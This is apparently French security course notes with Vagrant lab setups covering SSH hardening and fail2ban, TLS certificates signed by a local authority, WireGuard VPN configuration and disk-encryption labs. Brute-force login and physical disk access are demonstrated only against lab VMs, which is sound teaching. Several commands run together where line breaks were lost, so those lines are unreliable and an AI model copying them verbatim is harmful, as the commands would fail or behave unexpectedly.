echo "hello" > test-scp.txtecho "hello" > test-sftp.txtscp ./test-scp.txt vagrant@ssh-server:~/En résumé, cette commande copie un fichier vers le serveur via SCP sécurisé.
sftp vagrant@ssh-serverEn résumé, cette commande ouvre une session SFTP sécurisée.
put test-sftp.txtEn résumé, cette commande envoie un fichier vers le serveur via SFTP.
exitIci, on est dans la VM nommée "ssh-server".
ls test*SSH - Mise à jour de ssh et et configuration sont clés : Penser MFA !
Voici les différentes commandes exécutées dans l'image précédente :
ssh -VEn résumé, cette commande affiche la version du client SSH.
sudo cat /etc/ssh/sshd_config | grep -v '^#\|^$'sudo cat /etc/ssh/sshd_config.d/PermitPasswordAuthentication.conf | grep -v '^#\|^$'Exemples : https://www.digitalocean.com/community/tutorials/how-to-harden-openssh-on-ubuntu-20-04
SSH - Danger des attaques par force brute :
Désactivation du "hardening" du serveur :
Voici les différentes commandes exécutées dans l'image précédente :
sudo nano /etc/pam.d/sshdtail -n 1 /etc/pam.d/sshdsudo nano /etc/ssh/sshd_config.d/PermitPasswordAuthentication.conftail -n 2 /etc/ssh/sshd_config.d/PermitPasswordAuthentication.confsudo systemctl restart sshdsudo nano .ssh/authorized_keystail -n 1 .ssh/authorized_keyscat .ssh/authorized_keyssudo systemctl restart sshdEn résumé, cette commande redémarre le serveur SSH.
SSH - Accès par mot de passe :
PAS de 2FA :
Ici, on est dans la VM nommée "ssh-client".
ssh vagrant@ssh-serverSSH - attaque par force brute :
Limite par session, pas au total !
ssh vagrant@ssh-serverFail2ban - examen des logs et bannissement IP problématiques :
Pas uniquement SSH :
Ici, on est dans la VM nommée "ssh-server".
Voici les différentes commandes exécutées dans l'image précédente :
sudo ufw allow sshEn résumé, cette commande autorise les connexions SSH dans le firewall.
sudo ufw enableEn résumé, cette commande active le firewall UFW.
sudo cat /etc/fail2ban/jail.d/defaults-debian.confsudo fail2ban-client startEn résumé, cette commande démarre le service Fail2ban.
sudo fail2ban-client statusEn résumé, cette commande affiche l'état de Fail2ban.
Tutoriel : https://www.linode.com/docs/guides/using-fail2ban-to-secure-your-server-a-tutorial/
SSH - attaque par force brute 2 :
Limite par période, configurable :
Ici, on est dans la VM nommée "ssh-client".
ssh vagrant@ssh-serverSSH - status fail2ban :
Avant et après tentatives de connexion :
Ici, on est dans la VM nommée "ssh-server".
sudo fail2ban-client status sshdEn résumé, cette commande affiche les IP bannies pour le service SSH.
SSH - Logs :
Recherche dans auth.log :
sudo cat /var/log/auth.log | grep "Failed password for vagrant"En résumé, cette commande recherche dans les logs les tentatives de connexion SSH échouées.
SSH - Prévalence des attaques par force brute :
Exemple réel :
cat /etc/fail2ban/jail.localExercice 2 : Protection des données en transit :
Dans cette partie du cours, on pratique la matière SSL/TLS et SSH.
Contexte :
-
Contexte d'entreprise (suite de l'exercice 1) :
-
Même infrastructure : serveur nginx, sites client1 et client2, contrôles d'accès en place.
-
Nouvelles exigences de sécurité :
-
L'accès distant doit s'appuyer sur une clé publique (SSH).
-
Les communications doivent être chiffrées (HTTP → HTTPS).
-
-
-
Actifs à protéger :
-
Confidentialité et intégrité : empêcher un MITM de lire ou modifier les échanges.
-
Clés privées : leur compromission invalide toute la sécurité mise en place.
-
Traçabilité : documenter qui possède quoi et comment les artefacts ont été échangés et vérifiés.
-
Configuration :
| exercice2-server | exercice2-client | |
|---|---|---|
| IP | 172.28.128.20 | 172.28.128.21 |
| Hostname | exercice2-server.hs.be | exercice2-client.hs.be |
| Rôle | nginx (8081, 8082) + sshd + openssl | curl + ssh-client |
| Utilisateurs | user1, user2, user_adm, vagrant | user1, user2, user_adm, vagrant |
| ~/.ssh/ | authorized_keys vide prêt | .ssh/ créé, clés à générer |
known_hosts - une entrée par utilisateur :
Chaque utilisateur de exercice2-client possède son propre ~/.ssh/known_hosts. La clé hôte du serveur y est enregistrée lors de la première connexion SSH - chaque utilisateur doit la vérifier indépendamment par un canal hors-bande (console du serveur).
Voici le Vagrantfile de la VM nommée "exercice2" (exercice2-server) :
# coding: utf-8
# Exercice 2 — Protection des données en transit
# VM identique à exercice1, étendue pour HTTPS et SSH par clé publique
Vagrant.configure("2") do |config|
config.vm.box = "ubuntu/jammy64"
config.vm.network "private_network", ip: '172.28.128.20'
config.vm.provision "file", source: "./users.txt", destination: "/home/vagrant/users.txt"
config.vm.provision "file", source: "./client1.conf", destination: "/home/vagrant/client1.conf"
config.vm.provision "file", source: "./client2.conf", destination: "/home/vagrant/client2.conf"
config.vm.provision "file", source: "./site-client1", destination: "/home/vagrant/site-client1"
config.vm.provision "file", source: "./site-client2", destination: "/home/vagrant/site-client2"
config.vm.provision "shell", inline: <<-SHELL
#!/bin/bash
set -euo pipefail
# Fuseau horaire (important pour les certificats TLS)
timedatectl set-timezone Europe/Brussels
# Hostname
hostnamectl set-hostname exercice2-server.hs.be
echo "172.28.128.20 exercice2-server.hs.be" >> /etc/hosts
echo "172.28.128.21 exercice2-client.hs.be" >> /etc/hosts
# Installation nginx + openssl
DEBIAN_FRONTEND=noninteractive apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y nginx openssl
# === Reprise de la configuration exercice1 ===
mv /home/vagrant/site-client1 /var/www
mv /home/vagrant/site-client2 /var/www
mv /home/vagrant/client1.conf /etc/nginx/conf.d
mv /home/vagrant/client2.conf /etc/nginx/conf.d
chmod go-rw /home/vagrant/users.txt
adduser --quiet --disabled-password --shell /bin/bash --home /home/user1 --gecos "User1" user1
adduser --quiet --disabled-password --shell /bin/bash --home /home/user2 --gecos "User2" user2
adduser --quiet --disabled-password --shell /bin/bash --home /home/user_adm --gecos "User_adm" user_adm
chpasswd < /home/vagrant/users.txt
groupadd client1
adduser user1 client1
adduser vagrant client1
groupadd client2
adduser user2 client2
adduser vagrant client2
chown -R vagrant:client1 /var/www/site-client1
chmod 2775 /var/www/site-client1
chown -R vagrant:client2 /var/www/site-client2
chmod 2775 /var/www/site-client2
chown root:root /etc/nginx/conf.d/client1.conf
chown root:root /etc/nginx/conf.d/client2.conf
# === Préparation HTTPS ===
# Répertoire de travail pour les artefacts TLS (certificats, clés)
mkdir -p /home/vagrant/tls
chown vagrant:vagrant /home/vagrant/tls
# === Préparation SSH par clé publique ===
# PubkeyAuthentication est activé par défaut sur Ubuntu Jammy ;
# on le rend explicite pour éviter toute ambiguïté.
echo "PubkeyAuthentication yes" > /etc/ssh/sshd_config.d/pubkey.conf
systemctl restart sshd
# Répertoires .ssh pour chaque utilisateur côté serveur :
# les étudiants y déposeront les clés publiques reçues du client
for USER in user1 user2 user_adm vagrant; do
HOME_DIR=$(eval echo "~${USER}")
mkdir -p "${HOME_DIR}/.ssh"
touch "${HOME_DIR}/.ssh/authorized_keys"
chmod 700 "${HOME_DIR}/.ssh"
chmod 600 "${HOME_DIR}/.ssh/authorized_keys"
chown -R "${USER}:${USER}" "${HOME_DIR}/.ssh"
done
nginx -t
nginx -s reload
SHELL
endVoici le Vagrantfile de la VM nommée "exercice2-client" :
# coding: utf-8
# Exercice 2 — Machine cliente
# Utilisateurs identiques au serveur ; les étudiants y génèrent leurs clés SSH
# et y installent le certificat de l'autorité de certification.
Vagrant.configure("2") do |config|
config.vm.box = "ubuntu/jammy64"
config.vm.network "private_network", ip: '172.28.128.21'
config.vm.provision "file", source: "./users.txt", destination: "/home/vagrant/users.txt"
config.vm.provision "shell", inline: <<-SHELL
#!/bin/bash
set -euo pipefail
# Fuseau horaire
timedatectl set-timezone Europe/Brussels
# Hostname
hostnamectl set-hostname exercice2-client.hs.be
echo "172.28.128.21 exercice2-client.hs.be" >> /etc/hosts
# Résolution du serveur
echo "172.28.128.20 exercice2-server.hs.be" >> /etc/hosts
# Outils (curl et openssl généralement déjà présents, on s'en assure)
DEBIAN_FRONTEND=noninteractive apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y curl openssl
# Création des mêmes utilisateurs que sur le serveur
chmod go-rw /home/vagrant/users.txt
adduser --quiet --disabled-password --shell /bin/bash --home /home/user1 --gecos "User1" user1
adduser --quiet --disabled-password --shell /bin/bash --home /home/user2 --gecos "User2" user2
adduser --quiet --disabled-password --shell /bin/bash --home /home/user_adm --gecos "User_adm" user_adm
chpasswd < /home/vagrant/users.txt
# Répertoires .ssh pour chaque utilisateur :
# - permissions 700 sur le dossier
# - authorized_keys et known_hosts vides, 600, prêts à l'emploi
# - Les clés seront générées par les étudiants (ssh-keygen)
for USER in user1 user2 user_adm vagrant; do
HOME_DIR=$(eval echo "~${USER}")
mkdir -p "${HOME_DIR}/.ssh"
touch "${HOME_DIR}/.ssh/authorized_keys"
touch "${HOME_DIR}/.ssh/known_hosts"
chmod 700 "${HOME_DIR}/.ssh"
chmod 600 "${HOME_DIR}/.ssh/authorized_keys" "${HOME_DIR}/.ssh/known_hosts"
chown -R "${USER}:${USER}" "${HOME_DIR}/.ssh"
done
# Répertoire pour stocker le certificat de l'AC reçu depuis le serveur
mkdir -p /home/vagrant/tls
chown vagrant:vagrant /home/vagrant/tls
SHELL
endSSH étape 1 : administration distante :
Objectif : accès SSH au compte vagrant du serveur, entièrement à distance. L'échange de clés se fait par les consoles des deux VMs (canal hors-bande).
-
Console exercice2-server : relever l'empreinte de la clé hôte :
ssh-keygen -l -f /etc/ssh/ssh_host_ed25519_key.pubNoter la valeur SHA256 affichée.
-
Console exercice2-client (en tant que vagrant) :
-
Générer la paire de clés :
ssh-keygen -t ed25519 -
Afficher la clé publique :
cat ~/.ssh/id_ed25519.pubLa clé publique SSH est une ligne composée de trois parties séparées par des espaces dont voici la structure générale :
[type] [clé encodée] [commentaire]
-
-
Console exercice2-server : ajouter la clé publique de vagrant :
echo "<clé>" >> /home/vagrant/.ssh/authorized_keysEn résumé, cette commande autorise cette clé publique à se connecter au compte.
<clé> contient la ligne complète de la clé publique avec les trois parties et pas juste la partie de la clé encodée.
Voici ls redirections les plus utilisées en bash :
Opérateur Rôle > Écrire dans un fichier (écrase) >> Ajouter à la fin d'un fichier < Lire depuis un fichier 2> Rediriger les erreurs &> Rediriger sortie + erreurs -
Depuis exercice2-client : tester la connexion SSH :
ssh vagrant@exercice2-server.hs.beEn résumé, cette commande ouvre une connexion SSH vers le serveur.
Comparer l'empreinte affichée avec celle relevée sur la console serveur avant d'accepter (yes) - la clé hôte est mémorisée dans ~/.ssh/known_hosts.
Pour voir quelle clé est utilisée par le client lors de la connexion, on fait la commande suivante :
ssh -v vagrant@exercice2-server.hs.beOn verra dans les logs la ligne suivante :
Offering public key: ~/.ssh/id_ed25519
SSH étape 2 : utilisateurs et droits d'accès :
Même procédure par les consoles pour chacun des utilisateurs (user1, user2, user_adm) :
-
Console exercice2-client :
-
su - userN
Il y a une différence entre la commande
su userNet la commandesu - userN:Commande Environnement Répertoire Usage su userNconserve l'environnement ne change pas changement rapide su - userNcharge l'environnement complet /home/userN vraie session ssh-keygen -t ed25519 -
cat ~/.ssh/id_ed25519.pub
-
-
Console exercice2-server :
echo "<clé>" >> /home/userN/.ssh/authorized_keys -
Tester :
ssh userN@exercice2-server.hs.beChaque utilisateur a son propre known_hosts.
Vérification des droits d'accès (suite de l'exercice 1) - connecté en user1 sur le serveur via SSH :
su - user1ssh user1@exercice2-server.hs.be-
Modifier /var/www/site-client1/index.html → succès (user1 ∈ groupe client1).
nano /var/www/site-client1/index.html -
Modifier /var/www/site-client2/index.html → permission refusée (user1 ∉ groupe client2).
nano /var/www/site-client2/index.html -
Depuis exercice2-client, confirmer :
curl http://exercice2-server.hs.be:8081curl http://exercice2-server.hs.be:8082
SSH : documentation :
-
Décrire la procédure hors-bande utilisée pour échanger les clés publiques et vérifier la clé hôte :
La clé publique du client est copiée via la console des VMs, puis collée dans authorize_keys.
-
Pourquoi la console est-elle un canal de confiance ?
Parce qu'elle n'utilise pas le réseau, donc un attaquant ne peut pas intercepter ou modifier la clé.
-
Que se passerait-il si la clé publique d'un utilisateur était interceptée ou modifier lors de son transfert vers authorized_keys ?
Un attaquant pourrait remplacer la clé publique par la sienne et obtenir un accès SSH non autorisé.
-
-
Expliquer pourquoi chaque utilisateur possède son propre known_hosts : quelles conséquences si un utilisateur accepte une mauvaise clé hôte (celle d'un attaquant) ?
Chaque utilisateur doit vérifier lui-même la clé du serveur. Si un utilisateur accepte une mauvaise clé, il peut être victime d'une attaque Man-in-the-Middle.
-
Une fois les clés en place, que vérifie le serveur lors d'une connexion SSH ? Que vérifie le client ? En quoi est-ce une authentification mutuelle ?
Le serveur vérifie que la clé publique du client correspond à une clé dans authorized_keys.
Le client vérifie que la clé du serveur correspond à celle stockée dans known_hosts.
C'est une authentification mutuelle parce que le serveur prouve son identité au client et que le client prouve son identité au serveur.
-
Identifier le point commun fondamental entre l'établissement de confiance en SSH (clé hôte, authorized_keys) et en HTTPS (certificat AC) : dans les deux cas, comment l'authenticité est-elle garantie avant la première communication sécurisée ?
Dans les deux cas, la première vérification de confiance se fait hors-bande. En SSH par la vérification de la clé du serveur et en HTTPS par la confiance dans l'autorité de certification.
HTTPS (1/3) : artefacts TLS :
Tous les artefacts sont créés dans ~/tls/ sur exercice2-server. Pour la suite des commandes, il faut se reconnecter en vagrant soit via exit ou soit via la commande suivante :
su - vagrant-
mkdir -p ~/tls/acEn résumé, cette commande crée le dossier pour stocker les fichiers de l'autorité de certification.
-
Créer la clé privée et le certificat auto-signé de l'AC :
openssl genpkey -algorithm RSA -out ~/tls/ac/ac.keyopenssl req -new -x509 -days 3600 -key ~/tls/ac/ac.key -out ~/tls/ac/ac.crt
Le Common Name (CN) de ce certificat doit être "monac".
-
Créer la clé privée et la demande de certification (CSR) du serveur :
openssl genpkey -algorithm RSA -out ~/tls/server.keyopenssl req -new -key ~/tls/server.key -out ~/tls/server.csr
Le Common Name (CN) de ce certificat doit être "exercice2-server.hs.be".
-
Faire signer le certificat par l'AC :
openssl x509 -req -CAcreateserial -days 365 -CA ~/tls/ac/ac.crt -CAkey ~/tls/ac/ac.key -in ~/tls/server.csr -out ~/tls/server.crt
HTTPS (2/3) : configuration et vérification :
-
Configurer nginx - ajouter un bloc HTTPS dans chaque fichier de site (/etc/nginx/conf.d) :
-
client1.conf : listen 4431 ssl;
-
client2.conf : listen 4432 ssl;
-
Dans chaque bloc :
ssl_certificate /home/vagrant/tls/server.crt;ssl_certificate_key /home/vagrant/tls/server.key;
Il faut donc faire la commande suivante (remplacer le "X" par le bon chiffre) :
sudo nano /etc/nginx/conf.d/clientX.confEt ajouter le bloc suivant (remplacer le "X" par le bon chiffre) :
server { listen 443X ssl; root /var/www/site-clientX; index index.html; ssl_certificate /home/vagrant/tls/server.crt; ssl_certificate_key /home/vagrant/tls/server.key; }Après avoir modifier la configuration de nginx, il ne faut pas oublier de faire les commandes suivantes :
sudo nginx -tsudo nginx -s reload -
-
Copier ac.crt sur exercice2-client via SSH :
scp vagrant@exercice2-server.hs.be:/home/vagrant/tls/ac/ac.crt /home/vagrant/tls/ -
Depuis exercice2-client, vérifier les deux sites HTTPS :
curl --cacert /home/vagrant/tls/ac.crt https://exercice2-server.hs.be:4431curl --cacert /home/vagrant/tls/ac.crt https://exercice2-server.hs.be:4432En résumé, cette commande vérifie le certificat TLS du serveur en utilisant le certificat de l'AC.
-
Vérifier que les sites HTTP (8081, 8082) continuent de fonctionner.
curl http://exercice2-server.hs.be:8081curl http://exercice2-server.hs.be:8082
HTTPS (3/3) : documentation :
-
Lister tous les artefacts créés (fichiers .key, .csr, .crt) et préciser pour chacun :
-
Qui le possède (ou doit le posséder).
-
S'il est secret (ne jamais transmettre) ou public (peut être distribué librement).
Fichier Qui le possède Secret ? ac.key Autorité de certification SECRET ac.crt AC + client public server.key serveur SECRET server.csr AC public server.crt serveur + client public -
-
Décrire la procédure d'échange : comment le certificat de l'AC est-il transmis au client, et comment s'assure-t-on de son authenticité avant de lui faire confiance ?
-
Que se passe-t-il si la clé privée de l'AC est compromise ? Quelles actions s'imposent ?
La sécurité de tous les certificats est cassée. Les actions sont :
-
révoquer les certificats
-
créer une nouvelle AC
-
générer de nouveaux certificats
-
redistribuer le nouveau certificat AC
-
-
Quelle est la différence avec un certificat signé par Let's Encrypt ou une AC commerciale ?
Dans mon cas, l'AC est locale et auto-signée. Dans Let's Encrypt, l'AC est publique et reconnue par les navigateurs. Donc les navigateurs vont confiance automatiquement.
Protection des données en transit : VPN : Environnements de travail :
Composantes :
-
wg-peerA
-
noeud WireGuard
-
agit comme gateway
Voici le Vagrantfile de cette VM :
# coding: utf-8 Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" config.vm.network "private_network", ip: '172.28.128.9' config.vm.provision "file", source: "./wireguard.sh", destination: "/home/vagrant/wireguard.sh" config.vm.provision "file", source: "./forward.sh", destination: "/home/vagrant/forward.sh" config.vm.provision "file", source: "./wg0.conf", destination: "/home/vagrant/wg0.conf" config.vm.provision "file", source: "./private", destination: "/home/vagrant/private" config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Mise à jour du fuseau horaire - important pour bien interpréter les logs sudo timedatectl set-timezone Europe/Brussels # Changement hostname hostnamectl set-hostname wg-peerA.hs.be echo "172.28.128.9 wg-peerA.hs.be" >> /etc/hosts # Chargement des packages, en mode non-interactif(!) DEBIAN_FRONTEND=noninteractive apt-get update DEBIAN_FRONTEND=noninteractive apt-get install -y wireguard traceroute # Sécurisation clé privée chmod 0600 private # Rendre scripts exécutables chmod +x wireguard.sh chmod +x forward.sh SHELL end -
-
wg-peerB
-
noeud WireGuard
Voici le Vagrantfile de cette VM :
# coding: utf-8 Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" config.vm.network "private_network", ip: '172.28.128.10' config.vm.provision "file", source: "./wireguard.sh", destination: "/home/vagrant/wireguard.sh" config.vm.provision "file", source: "./wg0.conf", destination: "/home/vagrant/wg0.conf" config.vm.provision "file", source: "./private", destination: "/home/vagrant/private" config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Mise à jour du fuseau horaire - important pour bien interpréter les logs sudo timedatectl set-timezone Europe/Brussels # Changement hostname hostnamectl set-hostname wg-peerB.hs.be echo "172.28.128.10 wg-peerB.hs.be" >> /etc/hosts # Chargement des packages, en mode non-interactif(!) DEBIAN_FRONTEND=noninteractive apt-get update DEBIAN_FRONTEND=noninteractive apt-get install -y wireguard traceroute # Sécurisation clé privée chmod 0600 private # Rendre script exécutable chmod +x wireguard.sh SHELL end -
-
wg-peerC
-
noeud Wireguard
-
nécessite installation manuelle
-
En résumé, la troisième machine est votre poste de travail (installer Wireguard dessus !) - ou alors, créez par vous même une troisième machine virtuelle.
Pensez à l'échange préalable de clés (modification des configurations des machines A et B ?)
Voici le Vagrantfile de cette VM si vous voulez le faire et les différentes étapes à exécuter :
# coding: utf-8
Vagrant.configure("2") do |config|
config.vm.box = "ubuntu/jammy64"
config.vm.network "private_network", ip: "172.28.128.11"
config.vm.provision "shell", inline: <<-SHELL
#!/bin/bash
set -euo pipefail
# Fuseau horaire
timedatectl set-timezone Europe/Brussels
# Hostname
hostnamectl set-hostname wg-peerC.hs.be
echo "172.28.128.11 wg-peerC.hs.be" >> /etc/hosts
# Installation WireGuard
DEBIAN_FRONTEND=noninteractive apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y wireguard traceroute
SHELL
end-
Créer les clés :
wg genkey | tee private | wg pubkey > public -
Sécuriser la clé privée :
chmod 600 private -
Afficher la clé publique :
cat public -
Sur PeerA, modifier le fichier `wg0.conf` pour ajouter PeerC dans PeerA :
[Peer] PublicKey = CLE_PUBLIQUE_PEERC AllowedIPs = 10.0.0.3/32 Endpoint = 172.28.128.11:51820 -
Dans PeerC, créer la config :
nano wg0.confVoici le contenu du fichier de configuration :
[Interface] ListenPort = 51820 [Peer] PublicKey = CLE_PUBLIQUE_PEERA AllowedIPs = 10.0.0.0/24 Endpoint = 172.28.128.9:51820 -
Voici le contenu du script `~/wireguard.sh` :
#! /usr/bin/bash -x set -euo pipefail # Création de l'interface sudo ip link add dev wg0 type wireguard # Rajout des adresses sudo ip address add dev wg0 10.0.0."${1}"/24 # Chargement de la configuration de wg0 sudo wg setconf wg0 ./wg0.conf # Chargement de la clé privée sudo wg set wg0 private-key ./private # Démarrage de l'interface sudo ip link set up dev wg0 # Vérification de la configuration de l'interface ip -c -4 a show dev wg0 # Vérification de la route ip route # Etat de wireguard sudo wg showLancer ce script avec la commande suivante pour démarrer l'interface WireGuard :
sudo ./wireguard.sh 3
VPN :
Vision historique de l'accès à distance :
-
Travail essentiellement sur site.
-
Infrastructure relativement simple.
-
Peu / pas de "cloud".
-
Accès de l'extérieur plutôt exceptionnel.
-
Approche périmétrique de la sécurité extérieure = danger (et souvent implicite : intérieur = sûr).
Cas d'utilisation :
-
Contexte :
-
Liaison de serveurs d'entreprise distants.
-
Connexion au réseau d'entreprise dans le cadre du télétravail.
-
(À priori, identité des hôtes "facile" à établir.)
-
-
Motivation :
-
Confidentialité.
-
Intégrité.
-
Prévention MITM : s'assurer de la bonne identité des hôtes.
-
SSH : avant tout administration système d'une machine (shell, SCP/SFTP); un tunnel par port (-L) ou proxy SOCKS(-D) peut exposer d'autres services, mais chaque service nécessite une configuration explicite.
VPN : transparence au niveau réseau - toutes les applications atteignent directement les hôtes distants, sans modification.
Exemple: création du réseau "virtuel" 10.0.0.0/24 sur infrastructure sous-jacente :
Wireguard - "Cryptokey Routing" :
Nouvelle interface réseau (wg0 ici).
Pairs.
Allowed IPs : Routing en sortie; ACL en entrée.
WireGuard - Étapes cryptographiques :
| Étape | Rôle | Mécanisme |
|---|---|---|
| Auth. mutuelle | Identité des deux pairs | Clés publiques pré-configurées (Curve25519) |
| Échange de clé éphémère | Secret partagé | DH éphémère (Curve25519) |
| Chiffrement + intégrité | Confidentialité + intégrité | ChaCha20-Poly1305 (AEAD) |
Authentification mutuelle par conception : Chaque pair configure explicitement la clé publique de l'autre (PublicKey dans wg0.conf). Un pair inconnu est silencieusement ignoré : pas de PKI, pas de CA.
Forward secrecy : clés éphémères jetées après chaque session - une fuite future de la clé statique ne compromet pas le trafic passé.
AEAD (ChaCha20-Poly1305) : chiffrement + intégrité en un seul primitif (contrairement à AES + HMAC séparés dans TLS/SSH).
Configuration peer A :
(joue un rôle de "serveur" - voir plus loin - tous les clients listés comme pairs).
cat wg0.confVoici le contenu du fichier `wg0.conf` :
[Interface]
ListenPort = 51820
[Peer]
PublicKey = ubUFl57LM3iKezkC5LmxkFeLtPboclTgC34IFM7eYTo=
AllowedIPs = 10.0.0.2/32
Endpoint = 172.28.128.10:51820
[Peer]
PublicKey = R02vI0+j7b6riBsVNgJQ2kNLQSwHKPvfLQVj+moxfG8=
AllowedIPs = 10.0.0.3/32
Endpoint = 172.28.128.1:51820Configuration peer B :
(joue un rôle de "client" - serveur listé comme pair).
cat wg0.confVoici le contenu du fichier `wg0.conf` :
[Interface]
ListenPort = 51820
[Peer]
PublicKey = nl6cvnJOPoo13PecODuKVINZlYWzZt4sti3x+qJDezY=
AllowedIPs = 10.0.0.0/24
Endpoint = 172.28.128.9:51820Création interface wg0 - peer A :
5 étapes : créer l'interface → assigner l'IP VPN → charger la config (pairs) → charger la clé privée → activer. La route 10.0.0.0/24 via wg0 apparaît automatiquement.
sudo ./wireguard.sh 1Voici le contenu du fichier `wireguard.sh` :
#! /usr/bin/bash -x
set -euo pipefail
# Création de l'interface
sudo ip link add dev wg0 type wireguard
# Rajout des adresses
sudo ip address add dev wg0 10.0.0."${1}"/24
# Chargement de la configuration de wg0
sudo wg setconf wg0 ./wg0.conf
# Chargement de la clé privée
sudo wg set wg0 private-key ./private
# Démarrage de l'interface
sudo ip link set up dev wg0
# Vérification de la configuration de l'interface
ip -c -4 a show dev wg0
# Vérification de la route
ip route
# Etat de wireguard
sudo wg showCréation interface wg0 - peer B :
Même séquence que peer A (le nom de l'interface peut différer entre systèmes).
sudo ./wireguard.sh 2Voici le contenu du fichier `wireguard.sh` :
#! /usr/bin/bash -x
set -euo pipefail
# Création de l'interface
sudo ip link add dev wg0 type wireguard
# Rajout des adresses
sudo ip address add dev wg0 10.0.0."${1}"/24
# Chargement de la configuration de wg0
sudo wg setconf wg0 ./wg0.conf
# Chargement de la clé privée
sudo wg set wg0 private-key ./private
# Démarrage de l'interface
sudo ip link set up dev wg0
# Vérification de la configuration de l'interface
ip -c -4 a show dev wg0
# Vérification de la route
ip route
# Etat de wireguard
sudo wg showInteractions :
ping 10.0.0.2ping 10.0.0.1Le trafic vers 10.0.0.0/24 est routé via wg0.
Rôle serveur de Peer A :
Peer C n'a qu'un seul pair (Peer A) avec AllowedIPs = 10.0.0.0/24 - tout trafic VPN transite par Peer A. Pour relayer vers Peer B. Peer A doit activer le forwarding IP.
ping 10.0.0.2Configuration Peer A comme "serveur" = relayeur :
À ne faire que si intentionnel ! Mauvaise pratique de sécurité sinon :
sudo ./forward.shVoici le contenu du fichier `forward.sh` :
#! /usr/bin/bash -x
set -euo pipefail
# On s'assure que ce "peer" -ci puisse forwarder les paquets - il agit comme "routeur"
sudo sysctl -w net.ipv4.ip_forward=1
sudo sysctl -w net.ipv6.conf.all.forwarding=1
sudo sysctl -pConsidérations de sécurité des VPN :
-
Diverses autres implémentations existent :
-
IPSec : au niveau de la couche IP.
-
OpenVPN : utilisation TLS.
-
Solutions propriétaires.
-
-
Bien comprendre technologie utilisée (!) - s'assurer de l'existence d'une sécurisation au niveau de la couche interface réseau.
-
Réseau exposé - quid si un des hôtes est un poste de télétravail mal sécurisé ?
-
Faux sentiment de sécurité "périmètre" - voir module Zero Trust Architecture.
-
Utilisation pour protection de la vie privée ? Risques résiduels : fuites DNS, l'opérateur VPN voit ce que votre FAI voyait avant...
"quid" signifie "Qu'en est-il (de ...) ?" ou "Que penser (de ...) ?"
TLS, SSH, WireGuard - Comparatif :
| TLS | SSH | WireGuard | |
|---|---|---|---|
| Auth. serveur | Certificat CA | Clé hôte (TOFU) | Clé publique pré-configurée |
| Auth. client | Certificat CA (opt.) | Mdp ou clé publique | Clé publique pré-configurée |
| Infrastructure | PKI + CA requise | Aucune | Aucune |
| Chiffrement + intégrité | AES + HMAC | AES + HMAC | ChaCha20-Poly1305 (AEAD) |
| Forward secrecy | Selon suite (DHE) | Oui | Oui |
Chaque protocole implémente le schéma combiné à sa manière.
TLS privilégie l'interopérabilité (PKI, autorités de certification).
SSH et WireGuard privilégient la simplicité : confiance par clé explicite, sans CA.
Protection des données au repos : Environnements de travail :
Attention, bien conserver la structure des fichiers.
Le répertoire de base doit contenir deux sous-répertoires :
-
vm-provisioning :
-
crypto-fs
-
crypto-fs-attaque
-
-
vm-virtual-disks
Attention, lorsque vous passez d'une machine virtuelle à l'autre, la première doit être arrêtée pour éviter un conflit sur l'ouverture des disques partagés.
Architecture globale :
-
crypto-fs :
-
À démarrer en premier.
-
Utilisé pour tester l'encryption au niveau file system.
-
Utilisé pour tester l'encryption au niveau disque ("full disk encryption").
-
Crée des disques durs virtuels, qui seront réutilisés par le deuxième box.
-
Pour que les disques virtuels soient accessibles à crypto-fs-attaque, il faut arrêter la machine virtuelle crypto-fs (en sortir, puis "vagrant halt").
-
-
crypto-fs-attaque :
-
À démarrer après que la première machine virtuelle soit arrêtée.
-
Se connecte aux disques durs virtuels (atteinte à la sécurité physique).
-
Démontrer l'accès au contenu nom encrypté de la première box.
-
Visualisation dans VirtualBox :
Disque attaché à crypto-fs :
Disque attaché à crypto-fs-attaque :
Extrait de la configuration Vagant :
Contenu Vagrantfile pour crypto-fs :
# coding: utf-8
disk1 = "../../vm-virtual-disks/extra-auto-1.vdi"
disk2 = "../../vm-virtual-disks/extra-auto-2.vdi"
Vagrant.configure("2") do |config|
config.vm.box = "ubuntu/jammy64"
config.vm.provider :virtualbox
config.vm.provision "file", source: "./users.txt", destination: "/home/vagrant/users.txt"
config.vm.provision "file", source: "./mount-hello.sh", destination: "/home/vagrant/mount-hello.sh"
config.vm.provision "file", source: "./mount-laisse-mount.sh", destination: "/home/vagrant/mount-laisse-mount.sh"
config.vm.provision "file", source: "./format-and-mount-extra1.sh", destination: "/home/vagrant/format-and-mount-extra1.sh"
config.vm.provision "file", source: "./format-and-mount-extra2.sh", destination: "/home/vagrant/format-and-mount-extra2.sh"
config.vm.provision "file", source: "./remount-extra1.sh", destination: "/home/vagrant/remount-extra1.sh"
config.vm.provision "file", source: "./remount-open-extra2.sh", destination: "/home/vagrant/remount-open-extra2.sh"
config.vm.provision "file", source: "./unmount-close-extra2.sh", destination: "/home/vagrant/unmount-close-extra2.sh"
config.vm.provision "file", source: "./unmount-extra1.sh", destination: "/home/vagrant/unmount-extra1.sh"
config.vm.provision "shell", inline: <<-SHELL
#!/bin/bash
set -euo pipefail
# Mise à jour du fuseau horaire - important pour les certificats
timedatectl set-timezone Europe/Brussels
# Changement hostname
hostnamectl set-hostname crypto-fs.hs.be
echo "172.28.128.11 crypto-fs.hs.be" | sudo tee -a /etc/hosts
# Création des utilisateurs
chmod go-rw ./users.txt
adduser --quiet --disabled-password --shell /bin/bash --home /home/user3 --gecos "User3" user3
chpasswd < users.txt
rm users.txt
adduser user3 admin
# Rendre scripts liés aux disques exécutables et création des points de montage
mkdir /mnt1
mkdir /mnt2
chmod +x /home/vagrant/format-and-mount-extra1.sh
chmod +x /home/vagrant/format-and-mount-extra2.sh
chmod +x /home/vagrant/remount-extra1.sh
chmod +x /home/vagrant/remount-open-extra2.sh
chmod +x /home/vagrant/unmount-close-extra2.sh
chmod +x /home/vagrant/unmount-extra1.sh
# Déplacement des scripts ecryptfs, les rendre exécutables et création des dir/points de montage
mv /home/vagrant/mount-hello.sh /home/user3
mv /home/vagrant/mount-laisse-mount.sh /home/user3
chown user3:user3 /home/user3/*.sh
chmod +x /home/user3/*.sh
mkdir /home/user3/hello
